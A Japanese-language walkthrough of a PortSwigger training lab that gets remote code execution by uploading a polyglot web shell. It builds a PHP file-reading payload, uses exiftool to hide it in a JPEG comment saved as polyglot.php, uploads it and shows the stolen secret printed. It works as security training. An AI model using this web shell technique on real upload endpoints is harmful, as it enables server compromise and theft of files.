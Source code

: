 # ポリグロットシェルのアップロードによるリモートコード実行

以下のハッキングラボは多言語 web シェルの対策がありません  
https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-polyglot-web-shell-upload

[前準備]  
https://exiftool.org/

- 1. Burp Suite を起動し、Proxy タブからブラウザを起動します
- 2. ブラウザからハッキングラボにアクセスします
- 3. 一般ユーザーでログインします
- 4. 以下のスクリプトファイルを作成します

```
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

- 5. php ファイルをアップロードしようとすると怒られます

```
Error: file is not a valid image Sorry, there was an error uploading your file.
```

- 6. exiftool を使用して、ポリグロットシェルを作成します  
     ※画像のメタ情報にシェルを埋め込みます

```shell
exiftool.exe -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" C:\Users\user\OneDrive\デスクトップ\1.jpg -o polyglot.php
Warning: FileName encoding not specified - C:/Users/user/OneDrive/デスクトップ/1.jpg
    1 image files created
```

- 7. web サイトから生成したポリグロットシェルをアップロードします

```
The file avatars/polyglot.php has been uploaded.
```

- 8. アバター画像を表示する画面を表示し、レスポンスを見ると、以下のようにスクリプトの実行結果が確認できます

```
MSTART YRFLA1fW2cU6QwvBkv1Fz8jarqA7uAT0 END
```
